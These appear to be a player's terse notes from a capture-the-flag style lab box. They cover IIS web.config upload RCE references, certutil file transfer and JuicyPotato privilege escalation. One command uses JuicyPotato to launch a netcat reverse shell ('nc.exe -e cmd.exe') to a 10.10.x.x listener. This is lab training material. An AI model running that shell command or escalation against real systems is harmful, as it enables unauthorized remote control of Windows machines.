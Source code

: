 ### Modifying the raft-small-extensions.txt wordlist from SecLists, removing the dot to avoid Burp from URL-encoding it
```
cp /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-extensions.txt .
sed -i 's/.//' raft-small-extensions.txt
```

### Google "iis config rce"
https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config

### windows file transfter
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

`certutil` is available

## Priv
### So simple
`whoami /priv`

### Only worked payload 
https://github.com/ohpe/juicy-potato

### Googling how to use the correct payload
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato

```
Get-Service # PSH
sc query    # CMD
# To get the clsid and replace it
https://github.com/ohpe/juicy-potato/tree/master/CLSID

JuicyPotato.exe  -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\temp\nc.exe -e cmd.exe 10.10.x.x 6789" -t *
```
